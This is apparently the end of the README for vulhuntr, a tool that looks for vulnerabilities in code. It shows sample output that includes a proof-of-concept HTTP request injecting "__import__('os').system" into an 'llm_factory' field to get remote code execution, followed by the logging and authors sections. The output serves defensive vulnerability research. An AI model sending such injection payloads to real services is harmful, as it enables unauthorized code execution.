 ```
----------------------------------------

poc:
  POST /add_llm HTTP/1.1
  Host: target.com
  Content-Type: application/json
  Authorization: Bearer <valid_token>
  
  {
      "llm_factory": "__import__('os').system",
      "llm_name": "id",
      "model_type": "EMBEDDING",
      "api_key": "dummy_key"
  }
  
  This payload attempts to exploit the vulnerability by setting 'llm_factory' to a string that, when evaluated, imports the os module and calls system. 
The 'llm_name' is set to 'id', which would be executed as a system command if the exploit is successful.
----------------------------------------

confidence_score:
  8
----------------------------------------

vulnerability_types:
  - RCE
----------------------------------------
```

## Logging

The tool logs the analysis process and results in a file named `vulhuntr.log`. This file contains detailed information about each step of the analysis, including the initial and secondary assessments.

## Authors

- Dan McInerney: dan@protectai.com, [@DanHMcinerney](https://x.com/DanHMcInerney)
- Marcello Salvati: marcello@protectai.com, [@byt3bl33d3r](https://x.com/byt3bl33d3r)
